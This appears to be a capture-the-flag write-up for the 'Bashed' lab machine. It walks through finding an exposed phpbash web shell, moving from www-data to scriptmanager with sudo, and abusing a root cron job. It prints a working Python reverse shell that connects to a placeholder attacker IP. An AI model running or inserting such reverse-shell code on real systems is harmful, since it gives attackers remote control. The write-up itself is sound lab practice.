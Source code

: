 Bashed
================

![header](header.png)

Solution
==============

User
---------
First, like always, we do a nmap scan and discovered port 80 is open.
Navigating to the website, we got a simple webpage showing something about phpbash

![webpage](webpage.png)

Phpbash is particularly interesting because it looks like we're given a free shell via that application.
Now we do a directory enumeration using dirbuster.

![dirbuster](dirbuster.png)

We got a directory `/dev/phpbash.php` ! Navigating to that directory, we got the phpbash application running right there.

![phpbash](phpbash.png)

Looks like we can already read the user flag...

![user](user.png)

`user

Root
------------
Let's see if we can escalate our privilege using `sudo su`

![sudo](sudo.png)

No we can't, but we can sudo as scriptmanager as seen in the screenshot.

Grab a python reverse shell from https://highon.coffee/blog/reverse-shell-cheat-sheet/ and we can spawn a reverse shell.

````
import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("ATTACKING-IP",80))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p=subprocess.call(["/bin/sh","-i"])
```
Now we can `sudo -u scriptmanager /bin/bash` to obtain bash shell, we've escalated from www-data to scriptmanager!

From here I did a lot of enumeration to find out what's going on, and finally ended up with something interesting:

![enumeration](enumeration.png)

We can see a cron job runnning, but we were unable to view the content of the cron job just yet.

However, there's another interesting directory sitting right at `/` and that's the `/scripts` directory

We can see the content of that directory:

![enum2](enum2.png)

From here we can see that `test.py` is opening up a new file `test.txt` and writing something to it.

What's interesting is that the `test.txt` file belongs to root! It looks like the script is being executed as root privilege!

Now we could use that script to gain a reverse shell

![rootshell](rootshell.png)

And there is our root flag!

Well just out of interest we could see the cron jobs being run is basically every script inside the scripts directory

![rootshell](rootshell.png)
